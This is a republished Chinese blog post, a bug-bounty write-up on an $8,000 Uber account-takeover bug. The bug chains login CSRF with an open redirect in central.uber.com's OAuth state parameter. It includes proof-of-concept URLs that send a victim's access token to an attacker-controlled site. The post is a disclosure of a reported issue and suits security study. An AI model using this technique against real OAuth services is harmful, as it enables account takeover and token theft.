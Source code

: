```yaml
---
layout: post
title:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
title2:  "【挖洞经验】我如何挖到了一个价值8000美金的Uber漏洞"
date:   2017-01-01 23:54:27  +0800
source:  "https://www.jfox.info/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
fileName:  "20170101167"
lang:  "zh_CN"
published: true
permalink: "2017/%e6%8c%96%e6%b4%9e%e7%bb%8f%e9%aa%8c%e6%88%91%e5%a6%82%e4%bd%95%e6%8c%96%e5%88%b0%e4%ba%86%e4%b8%80%e4%b8%aa%e4%bb%b7%e5%80%bc8000%e7%be%8e%e9%87%91%e7%9a%84uber%e6%bc%8f%e6%b4%9e.html"
---
```

{% raw %}
[Alpha_h4ck](https://www.jfox.info/go.php?url=http://www.freebuf.com/author/alpha_h4ck)共**1730**人围观 [漏洞](https://www.jfox.info/go.php?url=http://www.freebuf.com/./vuls)
我研究Uber漏洞已经有一段时间了，而这是我第一次发布关于Uber漏洞挖掘的报告，希望可以给大家提供一些有趣的挖洞思路。在这篇文章中，我将会跟大家分享一个我在Uber系统中发现的有趣漏洞（Login CSRF + 开放重定向 -> 账户接管）。 

## 长话短说

这个漏洞存在于Uber的central.uber.com节点，它使用了OAuth 2.0协议作为其登录授权机制，但该节点并没有正确使用CSRF参数，这将导致攻击者能够利用这种错误使用的状态参数来执行开放重定向以及Login CSRF，然后在实现重定向之后窃取URL哈希中的访问令牌。

## central.uber.com的登录流程

首先大家要了解central.uber.com的登录流程（修复前），当用户点击了central.uber.com页面中的登录按钮之后，系统的运行机制和跳转如下：

1.[https://central.uber.com/login?state=/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=/somewhere)

2. [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2Fsomewhere](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2Fsomewhere)

3. [https://central.uber.com/oauth2-callback?state=%2F&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4. [https://central.uber.com/somewhere](https://www.jfox.info/go.php?url=https://central.uber.com/somewhere)

注:如果你想充分理解这个漏洞的话，你首先必须要清楚该节点所采用的用户登录流程，所以请各位多花点时间好好看看上面给出的跳转链接。

当我看到了整个登录流程之后，我首先想到的攻击方法是将状态参数/somewhere修改为//google.com来实现一次可能的开放重定向。修改之后的登录流程如下：

1.  [https://central.uber.com/login?state=//google.com](https://www.jfox.info/go.php?url=https://central.uber.com/login?state=//google.com)

2.  [https://login.uber.com/oauth/authorize?response_type=code&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=code&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

3.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&code=it53JtFe6BPGH1arCLxQ6InrT4MXdd](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com&amp;code=it53JtFe6BPGH1arCLxQ6InrT4MXdd)

4.  //google.com 

果然不出我所料，我成功地将这个登录流程变成了一个开放重定向漏洞，但Uber并不接受关于开放重定向漏洞的报告，所以我还得想办法通过这个漏洞找到其他更有意思的漏洞。但不管怎么样，这仍然是一个非常好的开端。

由于Oauth请求使用的是code而并非token，所以即便是我们找到了一个开放重定向漏洞，我们也仍然无法利用它来窃取到任何信息。那如果我们将请求所使用的code转换为token的话，又会发生什么呢？

1.  [https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&state=%2F%2fgoogle.com](https://www.jfox.info/go.php?url=https://login.uber.com/oauth/authorize?response_type=token&amp;scope=profile%20history&amp;client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&amp;redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback&amp;state=%2F%2fgoogle.com)

2.  [https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback?state=%2F%2fgoogle.com#access_token=xxxxx)

3.  无法实现重定向

由于我们这里没有给[https://central.uber.com/oauth2-callback](https://www.jfox.info/go.php?url=https://central.uber.com/oauth2-callback)提供有效的code值，所以在上述的第2步之后才没能实现重定向。如果无法实现重定向，那我们就没办法窃取到访问令牌了。所以我们得想办法解决这个问题，我们需要一个针对oauth2-callback节点的有效code值。

### Login CSRF

在这种情况下，Login CSRF就要派上用场了。由于这个Uber节点会在重定向时使用 CSRF参数状态，所以我们可以直接将攻击者的有效OAuth code添加到oauth2-callback节点，然后将其发送给目标用户。当用户访问了这条链接之后，就可以被正确地重定向到攻击者所控制的页面并泄露其访问令牌。

### 限制

利用这个漏洞时唯一的要求就是目标用户的浏览器中已经存储了login.uber.com的身份认证会话信息（session）。由于central.uber.com是Uber的官方OAuth客户端，所以每一位Uber用户默认都会接受central.uber.com的请求。

### 概念验证PoC

PoC

    https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d攻击者的有效OAuth code&state=%2F%2f攻击者控制的站点

PoC登录流程

    
    1.https://login.uber.com/oauth/authorize?response_type=token&scope=profile%20history%20places%20ride_widgets%20request%20request_receipt%20all_trips&client_id=bOYt8vYWpnAacUZt9ng2LILDXnV-BAj4&redirect_uri=https%3A%2F%2Fcentral.uber.com%2Foauth2-callback%3fcode%3d{攻击者的有效OAuth code}&state=%2F%2f攻击者控制的站点
    
    2.https://central.uber.com/oauth2-callback?state=%2F%2fhackerone.com&code={攻击者的有效OAuth code}#access_token={目标用户的访问令牌}
    
    3.//hackerone.com#accesstoken={目标用户的访问令牌}
    

### 总结

终于搞定啦！我已经将这个漏洞上报给了Uber的安全技术团队，Uber也在确认了漏洞信息之后给我提供了8000美刀的漏洞奖励。

感谢大家的阅读，如果你有什么其他的观点或想法，请赶紧与我联系吧！（@ngalongc）

* 参考来源：ngailong， FB小编Alpha_h4ck编译，转载请注明来自FreeBuf.COM
{% endraw %}
